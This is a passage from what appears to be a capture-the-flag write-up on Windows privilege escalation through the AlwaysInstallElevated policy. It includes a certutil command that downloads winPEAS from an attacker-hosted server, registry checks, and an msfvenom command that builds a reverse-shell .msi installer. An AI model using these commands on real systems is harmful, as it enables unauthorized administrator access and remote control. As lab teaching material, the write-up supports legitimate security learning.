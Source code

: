 We can see that we are dealing with a 64 bit architecture, so we will use the `winPEAS x64` binary.

Same to what we have done with the `Netcat` binary, we will transfer the `winPEAS` binary to our target machine. To do this, we will host the file with `python -m http.server`, and we will type the following command on the target machine:

```powershell
certutil.exe -f -split -urlcache http://10.10.15.1/winPEASx64.exe
```

Now, we will execute the `winPEAS` binary and export all the output to a file:

```powershell
winPEASx64.exe > winPeas.txt
```
{: .file="winPEASx64.exe"}

If we check the results of `winPEAS`, we can see the following:

![Desktop View](root2.png){: w="700" h="400" }
_winPEAS output_

We can see how we are suggested to exploit the `AlwaysInstallElevated` privilege. This privilege allows any user to execute files with `.msi` extension (common Windows installers) as the `Administrator` user.

First, we will check if we really have this privilege on the target machine. In order to do this, we need to check some values in the Windows registry with the following commands:

```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

![Desktop View](root3.png){: w="700" h="400" }
_Registry values_

We can see how both of them have a value of `1`. This means that we can abuse this privilege.

### Malicious .msi file

To exploit this privilege, we can create a `.msi` malicious file with [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) that contains a TCP reverse shell. To do this:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.15.1 LPORT=9999 -f msi > 1.msi
```
{: file="1.msi"}

![Desktop View](root4.png){: w="700" h="400" }
_.msi File Creation_

Once we have the `.msi` file, we host it with `python3 -m http.server` command and we transfer it to the target machine with `certutil.exe`:

![Desktop View](root5.png){: w="700" h="400" }
_.msi File Transfer_
